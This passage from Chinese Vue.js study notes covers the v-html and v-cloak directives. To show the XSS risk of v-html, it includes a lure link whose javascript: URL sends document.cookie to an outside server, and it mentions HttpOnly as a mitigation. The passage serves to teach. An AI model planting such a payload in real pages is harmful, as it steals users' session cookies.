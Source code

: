 在准备之前，我们需要利用 <u>Cookie Editor</u> 插件来删除测试页面的 cookie，并添加自定义的无意义的 cookie

```vue
<div id="root">
    <div v-html="str"></div>
</div>
<script>
    new Vue({
        el: '#root',
        data: {
            str: `<a href="javascript:location.href ='http://www.baidu.com?cookie='+document.cookie">兄弟，这里有你想要的资源</a>`
        }
    })
</script>
```

效果如下：

<img src="https://theblogimage.oss-cn-fuzhou.aliyuncs.com/imagefortypora/image-20221021125439938.png" alt="image-20221021125439938" style="zoom: 50%;" />

当我们一点击，就会将当前网页的 cookie 传入到设定好的服务器中：

<img src="https://theblogimage.oss-cn-fuzhou.aliyuncs.com/imagefortypora/image-20221021125609361.png" alt="image-20221021125609361" style="zoom:50%;" />

但是，浏览器也考虑到 document.cookie 获取 cookie 这些敏感信息存在安全隐患，所以对于某些 cookie ，添加了 `HttpOnly:true`这个属性，我们通过一般的 JS 协议，无法获取设置了这个参数的 cookie

## 4.3 v-cloak

`v-cloak`指令本质是一个特殊属性，<font color="red">Vue 实例创建完毕之后并接管容器后删除 `v-cloak`属性</font>

使用方法：<u>搭配 CSS 解决网速过慢，Vue 实例不能及时渲染的问题</u>

**demo**

```css
/* css 样式 */
[v-cloak] {
    display: none;		/* 匹配 v-cloak 属性，使其不显示*/
}
```

```vue
<div id="root">
    <div v-cloak>{{name}}</div>
</div>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

